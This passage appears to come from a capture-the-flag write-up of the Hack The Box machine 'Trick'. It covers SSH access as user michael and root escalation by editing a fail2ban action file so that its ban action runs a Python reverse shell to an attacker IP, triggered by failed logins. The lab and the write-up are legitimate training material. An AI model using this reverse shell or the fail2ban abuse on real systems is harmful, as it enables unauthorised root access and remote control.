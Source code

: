 We are in!

```console
└──╼ [★]$ ssh michael@10.129.51.233 -i id_rsa
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep  2 22:24:12 2022 from 10.10.16.8
michael@trick:~$ 
```

Now this next part is a little tricky and requires abusing fail2ban. Which is also a pretty neat way to gain root. The way fail2ban works is that it will ban an ip from accessing the network after a certain amount of failed attempts. Instead we are going to make it run a reverse shell after an amount of incorrect logins.

Note: With how fail2ban works, you only get about 1 minute as root, But you can gain persistence as shown at the end of the writeup.

```console
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
Navigate to /tmp and copy over the files and then edit the file.

```console
michael@trick:/tmp$ cp /etc/fail2ban/action.d/iptables-multiport.conf /tmp
michael@trick:/tmp$ vim iptables-multiport.conf 
```
I tried a bunch of different reverse shells but they kept failing to connect. Finally I got this python reverse shell to work.

```console
actionban = export RHOST="10.10.14.35";export RPORT=1234;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")' 
```
After editing be sure to have your nc listener ready and move the file back and restart the fail2ban service.

```
michael@trick:/tmp$ mv iptables-multiport.conf /etc/fail2ban/action.d/
michael@trick:/tmp$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```
As soon as you restart the service go to town on failing authentication. I kept pressing enter until my listener finally caught it!
